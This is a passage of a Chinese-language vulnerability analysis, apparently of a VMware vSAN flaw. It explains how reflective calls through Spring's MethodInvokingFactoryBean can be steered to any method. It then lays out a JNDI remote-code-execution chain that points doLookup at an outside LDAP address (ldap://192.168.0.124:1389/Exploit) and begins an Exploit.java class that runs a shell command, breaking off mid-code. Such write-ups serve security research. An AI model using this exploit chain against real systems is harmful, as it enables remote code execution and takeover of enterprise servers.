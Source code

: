 ![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb50kA8w4BtQoicayj3K7YnJicEVPnHwHRnGQE6X8lrhEtkHeibKYhK3e4GMnvoeZIJXq45iahTyWqlEJw/640?wx_fmt=png)

在 vsan 初始化过程中 spring 会通过配置文件静态注入生成对应的对象，并且在运行过程中这些对象一直存在。如下图所示，getBean 会在 beanFactory 的 HashMap 中找到键为 beanIdOrClassName 的值并返回给 bean

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb50kA8w4BtQoicayj3K7YnJicagX5uyFiaYqYxSKUef9iaWbicreibJSW82LMkSzHlNiaMnA7ewG04fPalsw/640?wx_fmt=png)

之后通过 getMethods 方法获取 org.springframework.beans.factory.config.MethodInvokingFactoryBean 的所有方法

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb50kA8w4BtQoicayj3K7YnJicFEM3ibtzosSIiag47YUydXawMnYNcAWX03BN6ghBCs9GyYbfuoibmsTUQ/640?wx_fmt=png)

通过 method.getName().equals(methodName) 控制调用 MethodInvokingFactoryBean 的指定函数，同时可以利用 body.get(“methodInput”) 控制反射调用的参数。最后使用 method.invoke(bean, methodInput) 实现调用 MethodInvokingFactoryBean 指定函数的目的。

### **0x4 思考点**

经过上面的分析，有个点非常有意思，我们可以通过漏洞点修改 MethodInvokingFactoryBean 任意 Bean 的方法和参数，而且最后还能实现 Bean 调用。这个危害就比较大了，根据 iswin 师傅提供的思路，使用 JNDI 技术实现 RCE。

具体操作如下：

1. 利用反射修改静态方法为 javax.naming.InitialContext.doLookup  
2. 利用反射修改目标方法为 doLookup  
3. 利用反射修改参数为外链地址 ldap://192.168.0.124:1389/Exploit  
4. 利用反射调用函数

具体方式可参照

```
methodInvoker = new MethodInvokingFactoryBean();
methodInvoker.setTargetClass(TestClass1.class);
methodInvoker.setTargetMethod("intArgument");
methodInvoker.setArguments(5);
methodInvoker.prepare();
methodInvoker.invoke();

```

  

  

  

漏洞利用

  

  

  

### **0x1 编写利用类**

因为利用 ldap 方式进行命令执行，首先要编写最后的命令执行代码。  
Exploit.java

```
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.Reader;
import javax.print.attribute.standard.PrinterMessageFromOperator;
public class Exploit{
    public Exploit() throws IOException,InterruptedException{
        String cmd="touch /tmp/xxx";
        final Process process = Runtime.getRuntime().exec(cmd);
        printMessage(process.getInputStream());;
        printMessage(process.getErrorStream());
        int value=process.waitFor();
        System.out.println(value);
    }
```